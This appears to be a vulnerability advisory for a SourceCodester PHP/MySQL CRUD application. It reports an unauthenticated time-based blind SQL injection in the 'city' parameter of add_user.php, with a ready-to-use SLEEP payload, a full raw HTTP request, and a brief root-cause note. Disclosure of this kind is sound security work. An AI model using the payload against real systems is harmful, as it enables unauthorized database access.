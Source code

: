 # CRUD (Create, Read, Update, Delete) Without Page Reload/Refresh Using PHP and MySQL with Source Code - SQL injection vulnerability

### You do not need to log in to the website to remotely trigger SQL injection vulnerabilities!

Supplier:https://www.sourcecodester.com/php/17146/crud-create-read-update-delete-without-page-reloadrefresh-using-php-and-mysql-source-code

http://localhost//add_user.php   -----> POST -----> 'city' can control some city parameters

Payload:username=1&email=2&mobile=3&city=4' AND (SELECT * FROM (SELECT(SLEEP(10)))a) AND '1'='1

Running this load will result in a 10 second delay in the database execution. This indicates that the malicious SQL statement has been successfully executed in the database, allowing for time based SQL blind injection queries in the database.

```r
POST /add_user.php HTTP/1.1
Host: www.crud-without-refresh-reload.com:8088
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

username=1&email=2&mobile=3&city=4' AND (SELECT * FROM (SELECT(SLEEP(10)))a) AND '1'='1
```

![1](https://github.com/CveSecLook/cve/blob/main/CRUD/1.png)

The 6th line of the add_user.php file<? The PHP method retrieves user input from the POST element. Then, the value of this element will be passed to the code without proper purification or validation, and ultimately in line 9 of the add_user.php file<? Used for database queries in PHP methods. This leads to SQL injection attacks.

![2](https://github.com/CveSecLook/cve/blob/main/CRUD/1.png)
